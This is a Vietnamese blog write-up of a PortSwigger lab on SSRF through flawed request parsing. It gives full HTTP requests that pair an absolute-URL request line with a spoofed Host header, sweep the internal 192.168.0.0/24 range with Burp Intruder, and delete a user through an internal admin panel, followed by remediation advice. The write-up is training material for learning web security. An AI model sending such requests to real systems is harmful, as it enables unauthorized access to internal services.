





---
title: "[PortSwigger] Lab 5: SSRF via Flawed Request Parsing"
date: 2026-09-14
description: "Khai thác kỹ thuật Parser Differential SSRF dựa trên sự bất đồng bộ trong việc phân tích Absolute URL và Host header giữa Front-end và Back-end."
categories: ["PortSwigger Labs"]
series: ["HTTP Host Header Attacks"]
series_order: 5
showAuthor: false
showTableOfContents: true
---

## Thông tin bài Lab
* **Tên bài Lab**: SSRF via flawed request parsing
* **Chuyên đề**: HTTP Host Header attacks / Parser Differential SSRF
* **Mức độ**: Practitioner
* **Mục tiêu**: Bypass cơ chế kiểm tra Host header của Front-end bằng Absolute URL, quét dải mạng `192.168.0.0/24`, truy cập trang quản trị nội bộ và xóa tài khoản `carlos`.

---

## 1. Kiến thức nền tảng

Trong các hệ thống phân tán nhiều tầng, sự bất đồng bộ giữa các bộ phân tích cú pháp HTTP (Parser Differential) của Front-end và Back-end thường tạo ra kẽ hở bảo mật nghiêm trọng. Khi hệ thống Front-end áp dụng cơ chế xác thực tên miền nghiêm ngặt, sự sai lệch trong việc lựa chọn nguồn xác định đích đến có thể bị lợi dụng để vượt qua rào cản kiểm soát truy cập.

### 1.1. Các định dạng Request Target theo đặc tả RFC 7230

Giao thức HTTP/1.1 và HTTP/2 hỗ trợ hai định dạng chỉ định tài nguyên chính:
- **Origin-form**: Định dạng tương đối phổ biến khi client gửi trực tiếp đến máy chủ gốc: `GET /admin HTTP/1.1` kèm theo trường `Host: example.com`.
- **Absolute-form**: Định dạng URL tuyệt đối thường dùng khi client kết nối qua Forward Proxy hoặc các tầng cổng trung gian: `GET https://example.com/admin HTTP/1.1`.

Theo mục 5.4 của RFC 7230, khi một request chứa URL tuyệt đối trên dòng Request Line, đích đến của gói tin phải được xác định dựa trên tên miền trong URL đó, đồng thời máy chủ phải bỏ qua hoặc ghi đè giá trị của trường Host header.

### 1.2. Hiện tượng Parser Discrepancy giữa Front-end và Back-end

Lỗ hổng Flawed Request Parsing xuất hiện khi hai thành phần xử lý gói tin áp dụng logic phân tích trái ngược nhau:
- **Tại Front-end Proxy**: Bộ phân tích cú pháp đọc tên miền trên dòng Request Line (Absolute URL). Nhận thấy tên miền khớp với danh sách cho phép, Front-end bỏ qua việc kiểm tra trường Host header và chuyển tiếp gói tin.
- **Tại Back-end Routing**: Thành phần điều phối gói tin nội bộ lại ưu tiên đọc giá trị từ trường Host header để quyết định địa chỉ IP đích tiếp theo trong cụm mạng riêng.

---

## 2. Mô hình tấn công

### 2.1. Phân tích nguyên nhân và điều kiện phát sinh lỗ hổng

- **Xung đột quy chuẩn phân tích cú pháp**: Front-end căn cứ vào Request Line để kiểm duyệt, trong khi Back-end căn cứ vào Host header để định tuyến.
- **Thiếu đồng bộ hóa dữ liệu gói tin**: Front-end không chuẩn hóa request bằng cách chuyển URL tuyệt đối về dạng tương đối và không ghi đè Host header tương ứng trước khi đẩy vào nội bộ.
- **Cơ chế phân quyền tin cậy ngầm định**: Máy chủ quản trị nội bộ không yêu cầu xác thực độc lập đối với các kết nối xuất phát từ mạng riêng.

### 2.2. Sơ đồ luồng dữ liệu tấn công

```text
[ Attacker từ Internet ]
       │
       │  Gửi Request kết hợp:
       │  GET https://vulnerable-lab.net/ HTTP/2   <── Front-end kiểm tra dòng này (HỢP LỆ)
       │  Host: 192.168.0.x                       <── Back-end đọc dòng này để định tuyến!
       ▼
[ Front-end Reverse Proxy ]
       │
       │  Đọc Request Line: Thấy tên miền chính thức hợp lệ
       │  Bypass bộ lọc Host Header ──► Cho phép gói tin đi qua!
       ▼
[ Back-end Routing Dispatcher ]
       │
       │  Đọc trường Host: "192.168.0.x"
       │  Khởi tạo kết nối TCP mới và forward request vào mạng LAN
       ▼
[ Mạng nội bộ 192.168.0.0/24 ]
       │
       ├──► 192.168.0.1   ──► Không phản hồi (504 Gateway Timeout)
       ├──► ...
       └──► 192.168.0.211 ──► Máy chủ Admin nội bộ phản hồi (302 Found)
                                       │
[ Reverse Proxy ] ◄────────────────────┘
       │
       ▼
[ Chuyển tiếp phản hồi Admin Panel về cho Attacker ]
```

---

## 3. Khai thác lỗ hổng

Quá trình thực nghiệm tấn công được triển khai tuần tự qua 4 bước:

### Bước 1: Xác nhận cơ chế phòng thủ của Front-end

Trong Burp Suite Repeater, thử nghiệm thay đổi trực tiếp trường Host header thành tên miền Burp Collaborator `8v4gqncwsusu9mxpp8sfubam3d94xulj.oastify.com` theo định dạng tương đối thông thường (`GET / HTTP/2`):

```http
GET / HTTP/2
Host: 8v4gqncwsusu9mxpp8sfubam3d94xulj.oastify.com
Cookie: session=vUhDf2uQGMcOPGG7NwlMsSk4wqzsa7kh; ...
```

Máy chủ lập tức từ chối với mã lỗi `HTTP/2 403 Forbidden` cùng thông báo `"Client Error: Forbidden"`. Phản hồi này chứng minh Front-end đã thiết lập bộ lọc kiểm tra tên miền chặt chẽ trên Host header.



---

### Bước 2: Kích hoạt Flawed Request Parsing bằng Absolute URL

Thực hiện kỹ thuật can thiệp cú pháp: đưa toàn bộ URL tuyệt đối của bài lab vào dòng Request Line, đồng thời giữ nguyên tên miền Collaborator tại trường Host header:

```http
GET https://0a1e00850494db7c811fc025003d00fc.web-security-academy.net/ HTTP/2
Host: 8v4gqncwsusu9mxpp8sfubam3d94xulj.oastify.com
Cookie: session=vUhDf2uQGMcOPGG7NwlMsSk4wqzsa7kh; ...
```

Kết quả: Front-end bị đánh lừa bởi tên miền hợp lệ trên dòng Request Line và cho phép gói tin đi qua. Back-end tiếp nhận và định tuyến gói tin đến Burp Collaborator, phản hồi mã `HTTP/2 200 OK` từ Burp Collaborator Server. Lỗ hổng Parser Differential được xác thực thành công.



---

### Bước 3: Quét vét cạn dải mạng nội bộ bằng Burp Intruder

Chuyển request sang Burp Intruder để dò tìm máy chủ quản trị trong dải mạng riêng `192.168.0.0/24`. Thiết lập vị trí payload tại octet cuối của địa chỉ IP trong trường Host header:

```http
GET https://0a1e00850494db7c811fc025003d00fc.web-security-academy.net/ HTTP/2
Host: 192.168.0.§0§
Cookie: session=vUhDf2uQGMcOPGG7NwlMsSk4wqzsa7kh; ...
```

Lưu ý bỏ chọn mục **Update Host header to match target**. Cấu hình danh sách payload kiểu Numbers từ 0 đến 255. Khởi chạy tấn công:
- **Các địa chỉ IP không tồn tại máy chủ**: Phản hồi mã `504 Gateway Timeout`.
- **Địa chỉ IP mục tiêu**: Payload `211` (tương ứng IP `192.168.0.211`) phản hồi mã `HTTP/2 302 Found` với tiêu đề chuyển hướng `Location: /admin`.



---

### Bước 4: Thực thi xóa tài khoản carlos và giải quyết bài lab

Sau khi truy cập vào giao diện quản trị tại `192.168.0.211` và trích xuất token CSRF hợp lệ (`xLYkXMWtPYelF48IHiOjxz4vMsfV8jMj`), tiến hành soạn request POST gửi đến endpoint `/admin/delete`, duy trì cấu trúc URL tuyệt đối ở dòng Request Line:

```http
POST https://0a1e00850494db7c811fc025003d00fc.web-security-academy.net/admin/delete HTTP/2
Host: 192.168.0.211
Cookie: session=vUhDf2uQGMcOPGG7NwlMsSk4wqzsa7kh; ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=xLYkXMWtPYelF48IHiOjxz4vMsfV8jMj&username=carlos
```

Máy chủ xử lý thành công yêu cầu và phản hồi mã `HTTP/2 302 Found` chuyển hướng về trang chủ. Tài khoản `carlos` đã bị xóa khỏi hệ thống.



Kiểm tra lại trang web trên trình duyệt, thông báo giải quyết bài lab thành công xuất hiện.



---

## 4. Biện pháp khắc phục

### 4.1. Chuẩn hóa Request tại Front-end Proxy

- **Chuẩn hóa định dạng URL**: Front-end Proxy trước khi chuyển tiếp gói tin vào hệ thống nội bộ phải chuyển đổi toàn bộ URL tuyệt đối về định dạng tương đối (Origin-form).
- **Đồng bộ hóa Host header**: Trường hợp request chứa URL tuyệt đối, Front-end phải tự động trích xuất tên miền từ URL đó và ghi đè vào trường Host header để triệt tiêu sự không nhất quán giữa hai thành phần.
- **Kiểm tra tính toàn vẹn**: Nếu phát hiện tên miền trên dòng Request Line khác biệt với tên miền khai báo trong Host header (Domain Mismatch), hệ thống phải lập tức từ chối gói tin bằng mã lỗi `400 Bad Request`.

### 4.2. Cấu hình bảo vệ tại tầng Định tuyến và Mạng

- **Chấm dứt định tuyến động theo header**: Các thành phần điều phối mạng nội bộ tuyệt đối không sử dụng giá trị chuỗi từ Host header để quyết định IP đích chuyển tiếp.
- **Phân đoạn mạng và cô lập dịch vụ**: Thiết lập quy tắc tường lửa nghiêm ngặt để các cổng trung gian không thể tự do khởi tạo kết nối vào dải mạng quản trị hoặc các dịch vụ nội bộ chưa qua xác thực.
